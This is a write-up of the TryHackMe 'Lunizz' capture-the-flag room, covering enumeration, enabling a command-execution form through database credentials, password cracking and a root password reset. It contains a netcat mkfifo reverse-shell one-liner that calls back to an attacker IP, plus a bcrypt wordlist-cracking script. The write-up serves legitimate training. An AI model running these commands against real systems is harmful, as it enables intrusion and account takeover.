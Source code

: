 ```yaml
---
title: LunizzCTF TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/1.png)

## Scanning
We scan with nmap all ports with versions and scripts, we locate two strings in base64.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/2.png)

#### Decode strings in base64

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/2-2.png)

## Enumeration
Web service on port 80 that shows the default Apache page.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/3.png)

We scan with nmap and the script *"http-enum"*, we will enumerate a directory called *"/hidden/"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/4.png)

We access the directory and find an application that allows us to host image files. (rabbit hole)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/5.png)

We launch the **dirsearch** tool and list a new directory.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/6.png)

We access, we see that we have a form where it seems that it is possible to execute commands... But no, it does not work.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/7.png)

We run **dirsearch** again, this time we will try to enumerate files by extensions. We see that we list a file named *"instructions.txt"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/8.png)

We access the file and find some credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/9.png)

We use the credentials to connect to the DB, remember that the application option to execute commands was set to *"0"*, we set it to *"1"* and save.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/10.png)

We reload the page, check that Mode is now set to *"1"* and the **"ls"** command runs perfectly and prints the files.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/11.png)

## Exploitation
We set up a listening netcat on our kali and run our payload for a reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
#### Revers shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/12.png)

Doing reconnaissance, we find a file called *"bcrypt_encryption.py"*, in the Python code we see that it prints a hash with salted, also a commented hash in the script.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/13.png)

Examining the *python* script, I split the hash into two pieces (hashed password + salt), cross-referenced it with the wordlist **rockyou** and checked if the hash matched to find out the clear password. 

#### Python script code
```python
import bcrypt
import base64

salt   = b'$2XXXXXXXXXXXXXXXXXXXX'
hashPass = b'$2XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

with open("rockyou.txt","r") as f:
	for word in f.readlines():
		passw = word.strip().encode('ascii', 'ignore')
		b64str = base64.b64encode(passw)
		hashAndSalt = bcrypt.hashpw(b64str, salt)
		#print(hashAndSalt)
		#print(passw)

		if hashPass == hashAndSalt:
			print("[+] Password Found!!!: %s" % passw)
			break
```

#### Execute decrypt python script

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/14.png)

We authenticate as the user *"adam"* and see several interesting files that mention the user *"mason"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/15.png)

We found a **hidden directory** with this message, apparently it is a hint to list the password for the user *"mason"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/16.png)

We access the URL, there we see an image that will give us the clue without much difficulty. *(I will not show the image so as not to make spoilers)*

We use the password on the user *"mason"* and read the flag of *"user.txt"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/17.png)


## Privilege Escalation

We use the script **linpeas.sh** and list that there is a web service up internally on *port 8080*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/18.png)

We use curl on the website, we see an application with three options, I used the *"passwd"* option and the password of the user *"mason"* which modified the password of the user *"root"*. After that, I just had to log in as root and read the flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/LunizzCTF/19.png)





